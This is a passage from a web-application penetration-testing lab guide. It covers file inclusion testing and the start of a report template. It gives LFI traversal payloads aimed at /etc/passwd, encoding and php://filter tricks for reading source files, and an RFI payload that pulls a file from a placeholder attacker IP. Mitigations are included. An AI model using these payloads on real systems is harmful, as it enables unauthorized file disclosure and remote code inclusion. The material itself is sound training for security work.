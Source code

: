 ### Mitigation summary to include

- Parameterized queries (prepared statements), ORM safe APIs, least-privilege DB user, input validation, stored procedures where appropriate.

---

# Experiment 8 — File Inclusion (LFI/RFI) (Expanded)

**Objective:** Show local file inclusion or remote file inclusion PoC and explain server configuration that allows it.

### LFI testing steps

1. In a file-include parameter (e.g., `?page=`), try traversal payloads in increasing depth:

```
?page=../../../../etc/passwd
?page=../../../../../../../../etc/passwd
```

2. If the app filters `.`, try encoding tricks: `..%2f..%2f..%2fetc/passwd` or `php://filter/convert.base64-encode/resource=index.php` to read source files (base64 in response).

### RFI testing steps (only on lab server you control)

1. Host a small file `attacker.txt` on your machine accessible via HTTP.
2. Try `?page=http://<ATTACKER_IP>/attacker.txt`. If included, the remote content will render.

### What to collect

- Repeater request/response showing `/etc/passwd` or included remote file content.
- If `php.ini` is accessible via an info leak, capture `allow_url_include` or `allow_url_fopen` values.

### Mitigations

- Avoid using user input in include/require calls; use whitelists or map keys to paths, disable `allow_url_include`, effective use of `realpath()` checks and `basename()`.

---

# Experiment 9 — Report Template (Detailed)

**Objective:** Produce a formal deliverable you can hand in.

### Minimal professional report structure (markdown)

1. **Title & Scope** — tested host(s), date, tester name.
2. **Tools used** — list versions (nmap 7.x, Burp 2023.x Community, sqlmap 1.x, Nikto x.y).
3. **Methodology** — Recon → Crawl → Automated scan → Manual verification → Exploitation (lab) → Reporting.
4. **Findings table (example)**

